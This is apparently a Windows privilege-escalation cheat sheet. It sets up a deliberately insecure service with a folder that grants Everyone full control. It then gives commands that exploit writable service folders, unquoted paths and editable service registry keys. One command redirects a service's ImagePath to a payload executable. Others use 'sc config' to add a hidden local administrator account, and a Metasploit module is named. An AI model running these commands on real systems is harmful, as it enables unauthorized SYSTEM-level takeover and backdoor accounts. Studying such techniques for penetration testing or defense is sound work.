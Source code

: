 Insecure Setup:
```
C:\Windows\System32>sc create "Vulnerable Service" binPath= "C:\Program Files (x86)\Program Folder\A Subfolder\Executable.exe" start=auto
C:\Windows\System32>cd C:\Program Files (x86)
C:\Program Files (x86)>mkdir "Program Folder\A Subfolder"
C:\Program Files (x86)>icacls "C:\Program Files (x86)\Program Folder" /grant Everyone:(OI)(CI)F /T
```
## Folder & Service Executable Privileges

- When new folders are created in the root it is writeable for all authenticated users by default. (NT AUTHORITY\Authenticated Users:(I)(M))
- So any application that gets installed on the root can be tampered with by a non-admin user.
    - If binaries load with SYSTEM privileges from this folder it might just be a matter of replacing the binary with your own one.
- https://msdn.microsoft.com/en-us/library/bb727008.aspx

If folder is writable, drop a exe and use "Service Unquoted Path" to execute:
```
icacls "C:\Program Files (x86)\Program Folder"
```

If service exe is writable to everyone, low privilege user can replace the exe with some other binary:
```
icacls example.exe
```

```
F = Full Control
CI = Container Inherit - This flag indicates that subordinate containers will inherit this ACE.
OI = Object Inherit - This flag indicates that subordinate files will inherit the ACE.
```

## Service Permissions

- `exploit/windows/local/service_permissions`

### Approach 1 - Check permissions of service
```
subinacl.exe /keyreg "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Vulnerable Service" /display
```
If service is editable, change the `ImagePath` to another exe.
```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\Vulnerable Service" /t REG_EXPAND_SZ /v ImagePath /d "C:\Users\testuser\AppData\Local\Temp\Payload.exe" /f
```

or create a local admin with:
```
sc config "Vulnerable Service" binpath="net user eviladmin P4ssw0rd@ /add
sc config "Vulnerable Service" binpath="net localgroup Administrators eviladmin /add"
```
